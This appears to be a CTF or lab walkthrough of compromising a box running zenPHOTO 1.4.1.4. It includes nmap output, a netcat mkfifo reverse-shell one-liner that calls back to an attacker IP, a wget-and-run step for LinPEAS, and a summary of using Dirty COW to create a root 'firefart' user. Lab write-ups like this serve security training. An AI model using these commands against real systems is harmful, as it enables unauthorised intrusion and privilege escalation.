









Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.155.41             
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-16 16:37 IST
Warning: 192.168.155.41 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.155.41
Host is up (0.10s latency).
Not shown: 65016 closed tcp ports (reset), 515 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 31.08 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,23,80,3306 192.168.155.41
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-16 16:38 IST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 87.50% done; ETC: 16:38 (0:00:01 remaining)
Nmap scan report for 192.168.155.41
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.14 (Ubuntu)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.77 seconds
```

Visiting web server on port 80.

Directory brute forcing.



In page source, we found the version of zenphoto. (zenPHOTO 1.4.1.4)

Searched for public exploits

Run the exploit and checked its usage.


We run some basic commands and got to know that we are stuck in same directory.

We also know that we can run netcat. Let’s try getting another reverse shell using this command:

```sh
# nc mkfifo command from revshells.com  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.245 4444 >/tmp/f  
  
# Set up listener on Kali Machine  
nc -lvnp 4444
```

We got the shell and local flag.

## Privilege Escalation

Let’s see if we can upload LinPEAS. Check for curl and wget:


```sh
# set up a python HTTP server in Kali serving linpeas.sh  
python -m http.server 8888  
  
# Download and run linpeas.sh in the target system  
wget http://192.168.45.245:8888/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh
```
Highly probable exploits suggested by LinPEAS:

We downloaded the dirty cow 2 exploit from exploitdb and named it exploit.c.

The script provided instructions on how to compile, run, and gain root privilege access.

Download the exploit through exploit-db.

Renamed it.

Transfer it to the target server.

Follow the instructions provided in the script.



Login to ssh using creds we generated `firefart : 123`
```sh
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa firefart@192.168.169.41
```

